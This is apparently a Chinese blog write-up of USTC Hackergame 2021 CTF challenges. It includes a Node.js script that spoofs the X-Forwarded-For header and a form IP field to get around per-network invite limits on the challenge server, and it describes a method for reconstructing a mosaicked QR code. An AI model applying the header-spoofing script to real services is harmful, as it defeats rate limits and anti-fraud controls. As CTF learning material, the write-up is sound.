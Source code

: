 ```yaml
---
title: 'USTC Hackergame 2021 Writeup'
date: 2021-10-30 15:01:49
tags: [CTF]
published: true
hideInList: false
feature: 
isTop: false
---
```

# 前言

惭愧，大三了才发现这类比赛，第一次参加很激动。这该死的浓厚的来自互联网深处传来的精神魅力深深吸引住了我，虽然参与这竞赛并不能拿奖，但当挖出埋藏的宝藏（flag）时，视野的拓宽、精神的成就和肉体的疲惫交织在一起是真的愉悦。

# 解题记录

这里只记录了一些有意思的题目。

## FLAG 助力大红包

> “听说没？【大砍刀】平台又双叒做活动啦！参与活动就送 0.5 个 flag 呢，攒满 1 个 flag 即可免费提取！”
>
> “还有这么好的事情？我也要参加！”
>
> “快点吧！我已经拿到 flag 了呢！再不参加 flag 就要发完了呢。”
>
> “那怎么才能参加呢？”
>
> “这还不简单！点击下面的链接就行”

![题目](../post-images/1635577589169.png)

题面来看着实有趣，下面是助力的规则。

> 活动规则:
>
> 1. 用户在本活动中可以通过邀请好友助力的方式获得 flag 提现机会。收集满 1 个 flag ，即可提取 1 个 flag。
>
> ...
>
> 4. 每个用户只能够助力一次。为了建设世界一流大砍刀平台，活动要求位于同一 /8 网段的用户将会被视为同一个用户。（比如 IP 地址为 202.38.64.1 和 202.39.64.1 将被视为同一用户。）达到助力次数上线后，将无法再帮助好友助力。我们使用**前后端方式**检查用户的 IP 。

![手动助力](../post-images/1635577645433.png)

试着给自己手动助力一下，加了0.0038836个flag，又仔细看了下题目，同一 /8 网段会被视为同一用户，意味着你另外要找全世界127个不同的网段的人帮你，找代理池是个好办法但作为白嫖党当然是不可能的事。

![助力失败](../post-images/1635577690422.png)

然后打开了助力页面，看了下请求头，POST地址是助力链接，携带了一个表单，这个ip是从第三方获取到的。手动改一下POST试试。

![F12](../post-images/1635577715303.png)

![ops](../post-images/1635577739318.png)
很好，还真是前后端检查ip。找了一下还真有伪造ip地址请求的头参数：X-Forwarded-For，然后写了个小脚本。

![nice](../post-images/1635577778509.png)

```javascript
var request = require('request');
var p = /(?<=alert\">\n\s+)(.)*/
var uuid = ''
function options(i) {
    let ip = `${i}.8.8.8`
    return {
        'method': 'POST',
        'url': `http://202.38.93.111:10888/invite/c1b1ff6b-494b-4f3d-8fa7-4150273f4dce`,
        'headers': {
        'x-forwarded-for': ip,
        },
        formData: {
            ip
        }
    }
}
var i = 0
setInterval(function () {
    let ip = options(i)
    console.log(ip);
    request(ip, function (error, response) {
        console.log(p.exec(response.body)[0]);
    });
    i++
}, 1000);
```

跑完发现，必须要256个助力，0和255是保留网段，看来出题人已经指定了唯一解法。

## 马赛克

> 共享单车只剩下一辆，走近一看，果然是一辆二维码被坏人涂掉一大块的车，谁也骑不走。
>
> > 我今天还非就要把这个辆车骑走。
>
> 于是你开始研究起来这个二维码。

![qrbefore](../post-images/1635578017018.bmp)

仔细数了下像素格子，二维码小格边长11像素，马赛克格子边长23像素，这意味着一个马赛克下面一定会完全或部分涵盖9个二维码小格，马赛克色值是所有23X23=529个像素色值的均值并**向下取整**。

因为原二维码图片的像素非黑即白，我们知道了马赛克的色值，就能求得529个像素内白色像素的个数范围（向下取整造成的范围）。一个马赛克可以根据二维码小格边界分为九个区域，因为一个二维码小格内的像素色值是相同的，所以我们可以让九个格子随意组合（1到9个、每个区域只能用一次），挑出唯一在白色像素范围内的组合，那他们就是白格子（二维码格子），其余是黑格子。当然事情并不会那么顺利，如果组合大于一组，我们还可以根据已知的区域缩小范围或者求他们的交集与先并后非集得出唯一组合或确定的某个区域。

理论是有了，实现上我又写了个脚本，但是效率太低了，不能实现自动化去马赛克，只能拉来一个免费劳动力帮我整（惨）。代码打包已经传到了npm上。

```bash
sudo npm i -g qrfix #全局安装
qrfix 1 2 30 40 50 #前两位是第一区域的像素宽高 从第三位开始依次往右填入马赛克色值
```

![qrfinal](../post-images/1635578155428.png)

遗憾的是，直到最后我们还是没能解出来，因为区域区域的相同会造成多组合产生，时间不够导致不难尝试所有可能的组合。如果控制算法做好，能直接生成所有组合的图像，这题不难。

# 最后

![final score](../post-images/1635577508835.png)

1400分，排名240，不错，第一次见识到了差距。

但从业余无线电字母解释法到特殊的GraphQL数据库设计，再从逆马赛克算法设计到全局npm指令包制作，短短一周我看到接触到了太多大开脑洞的优秀的可能再也不会接触的思想逻辑与技能知识。无论结果如何，这一周可以说是荒废又充实的。CTF真是太棒了！


